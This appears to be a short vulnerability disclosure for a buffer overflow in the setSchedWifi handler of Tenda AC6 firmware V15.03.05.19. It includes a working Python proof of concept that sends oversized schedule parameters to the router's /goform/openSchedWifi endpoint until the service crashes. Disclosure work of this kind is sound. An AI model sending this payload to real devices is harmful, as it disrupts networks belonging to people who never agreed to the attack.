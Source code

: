 ## Buffer Overflow Vulnerability in Tenda AC6 Firmware Version V15.03.05.19

The `setSchedWifi` function within the Tenda AC6 router firmware V15.03.05.19 contains a critical buffer overflow vulnerability.  
Exploitation leverages two distinct `strcpy` operations in the affected code, enabling attackers to trigger Denial-of-Service (DoS) conditions or achieve service disruption through application crash.

![](./picture/1.png)
![](./picture/2.png)

### poc
```python
import requests

def generate_overflow_data():
    return b"XiDP" * 0x100 

def execute_overflow(url, data):
    payload = {'schedStartTime': data, 'schedWifiEnable': 0, 'schedEndTime': data}

    for _ in range(3):
        response = requests.get(url, params=payload)
    
    print(f"HTTP Status: {response.status_code}\nResponse Content: {response.text}")

if __name__ == "__main__":
    TARGET = "http://192.168.52.138/goform/openSchedWifi"
    execute_overflow(TARGET, generate_overflow_data())
```

Achieved Result: Segmentation Fault
![](./picture/3.png)
